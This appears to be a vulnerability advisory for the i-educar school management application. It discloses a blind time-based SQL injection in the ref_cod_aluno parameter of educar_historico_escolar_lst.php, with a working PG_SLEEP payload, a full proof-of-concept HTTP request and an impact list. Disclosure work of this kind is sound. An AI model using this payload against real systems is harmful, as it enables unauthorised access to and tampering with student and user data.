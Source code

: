 # SQL Injection (Blind Time-Based) Vulnerability in ref_cod_aluno Parameter on educar_historico_escolar_lst.php Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `educar_historico_escolar_lst.php` endpoint of the _i-educar_ application, specifically in the `ref_cod_aluno` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/educar_historico_escolar_lst.php`  
**Parameter:** `ref_cod_aluno`

The application fails to properly validate and sanitize user input in the `ref_cod_aluno` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This may allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

 `AND 6986=(SELECT 6986 FROM PG_SLEEP(5))`

This payload introduces a **5-second time delay** in the server response, confirming that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**

```
GET /intranet/educar_historico_escolar_lst.php?ref_cod_aluno=206+AND+6986=(SELECT+6986+FROM+PG_SLEEP(5)) HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

<img width="1572" height="707" alt="Pasted image 20250818003041" src="https://github.com/user-attachments/assets/ed0f7afd-7db3-4340-b823-5ffb62f27d76" />


The delayed response demonstrates that the injected SQL command was successfully executed by the backend database.

<img width="1566" height="711" alt="Pasted image 20250818003142" src="https://github.com/user-attachments/assets/fea30842-262d-497b-8302-75f0ce8694fe" />


---

## Impact

- **Unauthorized data access:** Retrieving sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting schema names, tables, and column structures
    
- **Data manipulation:** Inserting, updating, or deleting database records
    
- **Denial of Service (DoS):** Using time-based injections to disrupt application availability
    
- **Potential privilege escalation or RCE:** Depending on database configuration and available functions
    

This vulnerability could lead to full compromise of the database and exposure of sensitive application and user data.


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
